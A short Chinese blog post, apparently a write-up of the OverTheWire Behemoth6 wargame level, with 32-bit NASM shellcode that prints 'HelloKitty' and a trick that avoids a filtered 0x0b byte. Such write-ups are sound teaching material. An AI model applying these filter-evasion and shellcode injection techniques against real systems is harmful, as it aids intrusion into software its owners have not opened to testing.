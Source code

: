 ```yaml
---
title: Behemoth6
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题会在behemoth6_reader中执行用户提供的shellcode。我开始想的是直接就在那里把密码读取了，但reader没有setuid，所以权限不够。这样的话就只能写一个输出HelloKitty的shellcode了。代码如下

{% highlight nasm %}
BITS 32

xor eax, eax
push eax
push word 0x7974
push 0x74694b6f
push 0x6c6c6548 ;HelloKitty
mov ecx, esp

mov ebx, eax
mov edx, eax
mov bl, 1
mov dl, 10
inc edx
mov al, 4;write
int 0x80
{% endhighlight %}

注意reader会检查shellcode中是否包含0x0b，而那正好是字符串的长度，作为write的第3个参数。于是我是先赋为10，再加一。

编译保存为shellcode.txt，然后可得到密码